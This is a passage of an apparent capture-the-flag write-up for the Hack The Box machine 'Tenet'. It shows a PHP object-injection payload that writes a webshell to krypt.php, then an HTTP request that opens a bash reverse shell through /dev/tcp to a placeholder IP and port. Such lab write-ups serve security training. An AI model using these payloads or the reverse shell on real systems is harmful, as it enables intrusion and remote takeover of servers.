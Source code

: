 Here is the result of php object injection which results in file write
![file-write](./images/file-write.png)


For getting RCE we just need to write a php webshell into a php file
Our final payload for writing the php webshell to our php file will be like this<br>

```php
O:14:"DatabaseExport":2:{s:9:"user_file";s:9:"krypt.php";s:4:"data";s:30:"<?php system($_GET['cmd']); ?>";}
```

<br>

```http
GET /sator.php?arepo=O%3a14%3a"DatabaseExport"%3a2%3a{s%3a9%3a"user_file"%3bs%3a9%3a"krypt.php"%3bs%3a4%3a"data"%3bs%3a30%3a"<%3fphp+system($_GET['cmd'])%3b+%3f>"%3b} HTTP/1.1
Host: sator.tenet.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

Let's see the result of calling krypt.php

![RCE](./images/RCE.png)

There we go, we have successfully executed `id` as www-data user, now let's get a reverse shell
```http
GET /krypt.php?cmd=/bin/bash+-c+"bash+-i+>%26+/dev/tcp/IP/PORT+0>%261" HTTP/1.1
Host: sator.tenet.htb
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.77 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```
